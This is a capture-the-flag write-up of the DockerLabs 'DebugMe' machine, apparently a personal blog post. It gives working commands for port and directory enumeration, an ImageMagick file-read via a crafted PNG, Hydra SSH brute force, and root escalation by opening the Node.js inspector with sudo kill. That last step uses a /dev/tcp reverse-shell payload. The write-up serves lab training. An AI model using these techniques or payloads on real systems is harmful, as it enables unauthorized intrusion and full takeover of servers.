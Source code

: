 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs-en
featured: false
draft: false
ogImage: "assets/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs 
  - LFI
  - nodejs
description:
  This cybersecurity challenge guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process. 
lang: en
--- 
```


This cybersecurity challenge, available on <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process to achieve root access. 

## Table of contents

## Enumeration

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](/assets/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](/assets/debugme/image.png)

We visit the website on ports 80 and 443, and the same page appears. It seems to be a tool where we can select an image and the different size versions we want for the image.

![Resize image](/assets/debugme/image-2.png)

When submitting the form with an image and different versions, it shows them on a page.

![Result](/assets/debugme/image-3.png)

We do a bit of fuzzing on the web service using gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

We find the classic info.php, with PHP information.

![gobuster](/assets/debugme/image-4.png)

In `/info.php`, we find a bunch of installed PHP extensions and a slightly outdated PHP version `PHP Version 7.2.24-0ubuntu0.18.04.3`.

We also see that the `GD` and `Image Magick` modules are installed, which may be used for the image transformation service.

## Intrusion

There are likely different ways to perform the intrusion; in this case, we opted for a possible LFI (I think this would be LFI, but I'm not sure) that occurs during ImageMagick transformation.

More information at:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Following the instructions from hackplayers, we install the necessary dependencies:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

We use a PNG and add the profile field with the path we want to inject. This will create the pngout.png file.

![pngcrush](/assets/debugme/image-5.png)

We check that it has been added correctly.

```bash
exiv2 -pS pngout.png
```

![alt text](/assets/debugme/image-6.png)

Now we use the pngout.png image in the web service, select a size, and click on "Resize".

![Resize payload](/assets/debugme/image-7.png)

The two images appear, we right-click on one and download it to our Kali, naming it resultado.png.

![alt text](/assets/debugme/image-8.png)

We check if the data has leaked in the profile.

```bash
identify -verbose resultado.png
```

![alt text](/assets/debugme/image-9.png)

It seems the data leaked correctly. We copy all the hexadecimal bytes from the profile and put them in a single line. Then, we include them in the following Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

And the result:

![alt text](/assets/debugme/image-10.png)

Great, we now have an LFI, and we can see that there is a user named `lenam` and another named `application`.

### SSH Brute Force

If we try to look for other interesting files, we don't find anything. We attempt a brute force attack with the user `lenam` using Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

With a little patience, we find the SSH password for the user lenam.

![lenam ssh password](/assets/debugme/image-11.png)

## Privilege Escalation

We access via SSH using the user `lenam` and the password `loverboy`.

![alt text](/assets/debugme/image-12.png)

We see that we can run the command `/bin/kill` as root with lenam's password.

We also look at the processes that root is running and observe that a node.js process is being executed.

```bash
ps aux | grep root
```

![processes](/assets/debugme/image-13.png)

We check if there are any open local ports and find ports 8000 and 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](/assets/debugme/image-14.png)

Port 8000 seems to be a node.js application.

```bash
curl 127.0.0.1:8000
```

![alt text](/assets/debugme/image-15.png)

Since we can kill any process, we try to open the node.js debugger by sending a `SIGUSR1` signal to the node.js process. This should restart the node.js application with the debug port open (by default, port 9229) and accessible via websockets.

More information:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

To obtain the PID of the node.js process:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

The complete command:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

We check if the debug and inspection port 9229 is now open.

![port 9229](/assets/debugme/image-16.png)

Bingo! It worked. Now we enter the node.js application with the inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](/assets/debugme/image-17.png)

We listen with netcat.

```bash
nc -lvnp 5000
```

And we execute the following payload in the debug console, replacing the IP 10.0.2.15 with yours.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](/assets/debugme/image-18.png)

Congratulations, we are now root.